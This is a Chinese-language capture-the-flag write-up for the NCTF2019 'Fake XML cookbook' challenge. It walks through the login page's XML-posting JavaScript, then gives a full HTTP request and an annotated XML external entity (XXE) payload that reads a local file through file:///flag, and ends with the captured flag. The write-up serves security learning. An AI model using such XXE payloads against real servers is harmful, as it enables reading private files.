# [NCTF2019]Fake XML cookbook

[题目地址](https://buuoj.cn/challenges#[NCTF2019]Fake%20XML%20cookbook)

xxe入门题，笑死根本没听过xxe。

进来就一个登录框，测试感觉不是sql注入，扫目录也没扫出个所以然。看看源代码。

```js
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

登录逻辑是发post到doLogin.php来实现的，数据是xml形式。xml相关的漏洞不止一个，不过我们需要读取flag文件，[xxe漏洞](https://xz.aliyun.com/t/6887#toc-5)正好可以造成任意文件读取，那就先试试这个。给出的文章中提到了如何构造payload，这里给出重点。

xxe全名叫“xml外部实体注入“，那总要知道什么是实体吧？在文章的DTD部分介绍了实体，任意文件读取正是利用了外部引入实体文件的特性。首先我们需要声明当前文件中的元素：

```
<!DOCTYPE 根元素名称 [元素声明]>
```

不多做别的，直接让包含的元素是flag就行了。可以通过以下方式引入本机的实体文件：

```
<!ENTITY 实体名称 SYSTEM "URI/URL">
```

这里url我们用file协议。构造payload、。

```
POST /doLogin.php HTTP/1.1
Host: a803d793-9e26-4dd4-bc2a-c2120db174bd.node4.buuoj.cn:81
Content-Length: 154
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://a803d793-9e26-4dd4-bc2a-c2120db174bd.node4.buuoj.cn:81
Referer: http://a803d793-9e26-4dd4-bc2a-c2120db174bd.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0" ?>
<!DOCTYPE xxe [
<!ENTITY flag SYSTEM  "file:///flag">
]>
<user>
	<username>&flag;</username>
	<password>1</password>
</user>
```

解析一下payload。

```xml
<?xml version="1.0" ?>
<!DOCTYPE xxe [   <!--此处名字随便写，虽然这里本应该写file:///flag文件的根元素，但是flag文件压根就没有根元素，于是就不重要了-->
<!ENTITY flag SYSTEM  "file:///flag">  <!--定义子元素，只有一个，就是利用file协议读取的flag-->
]>
<user>
	<username>&flag;</username>   <!--&符号引用一般实体，上方定义实体名为flag，这里就写&flag,实体前后一定是&;闭合。根据之前的测试，程序会把名字回显，因此把flag注入到username处就能回显出来结果-->
	<password>1</password>
</user>
```

## Flag
> flag{4fc352f7-5ad2-4d29-9554-38b17d9fc8cd}